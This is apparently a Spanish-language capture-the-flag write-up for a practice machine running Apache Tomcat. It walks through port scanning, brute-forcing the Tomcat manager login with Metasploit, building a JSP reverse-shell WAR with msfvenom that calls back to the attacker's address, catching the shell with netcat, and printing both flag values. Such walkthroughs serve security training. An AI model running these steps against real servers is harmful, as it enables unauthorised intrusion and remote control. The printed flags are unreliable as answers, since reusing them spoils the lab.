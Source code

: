 
![[ 20250706131558.png]](jerry-images/20250706131558.png)
# NMAP

Realizamos un escaneo básico de nmap para ver los puertos abiertos

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.30 -oN scanner
```

![[ 20250706125044.png]]

una vez identificados los puertos abiertos vamos a realizar un escáner con scripts básicos para ver servicios y versiones

```bash
nmap -p8080 -sCV 10.129.197.30 -oN targeted
```

![[ 20250706125221.png]]

# Puerto 8080

entramos en la pagina web para ver que encontramos

![[ 20250706125423.png]]

despues de explorarla un poco vemos que en la parte de `manager app` aparece una solicitud de credenciales

![[ 20250706125702.png]]

## metasploit

abrimos metasploit

```bash
msfdb run
```


utilizamos el payload

```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

![[ 20250706125927.png]]

cambiamos el RHOTS 

```bash
set RHOSTS 10.129.197.30
```

cambiamos el USERNAME

```bash
set USERNAME tomcat
```

y lanzamos el exploit

```bash
run
```

![[ 20250706130135.png]]

vemos el usuario y contraseña tomcat:s3cret

al ingresarlo en la pagina web accedemos al menú de manager 

![[ 20250706130238.png]]

en este manu vemos que podemos subir un archivo .war

## msfvenom

asi que creamos un payload malicioso

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.155 LPORT=1234 -f war >> pwned.war
```

subimos el payload con la shell en la pagina web

![[ 20250706130648.png]]

pulsamos deploy 

![[ 20250706130727.png]]

y vemos un mensaje que indica que el archivo se subió correctamente 

# Abuso de payload

nos ponemos en escucha en el puerto indicado en mi caso el 1234

```bash
nc -nlvp 1234
```

y en la url ponemos 

```bash
<IP VICTIMA>:8080/NOMBRE_PAYLAOD
```

```bash
10.129.197.30:8080/pwned
```

la pagina web quedara en blanco y por la terminal en escucha vemos lo siguiente

![[ 20250706131056.png]]

se ha estabecido conexion con la maquina victima 

![[ 20250706131117.png]]

y tenemos usuario system = administrador 

# flags

explorando el sistema llegamos al directorio `C:\Users\Administrator\Desktop\flags` donde encontramos un archivo con nombre `2 for the price of 1.txt`

utilizamos type para ver el archivo (dato importante como es un sistema windows y el nombre del archivo tiene espacios debemos ponerlo entre comillas "nombre de archivo" para que el sistema lo detecte)

![[ 20250706131329.png]]

y tenemos ambas flags

user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

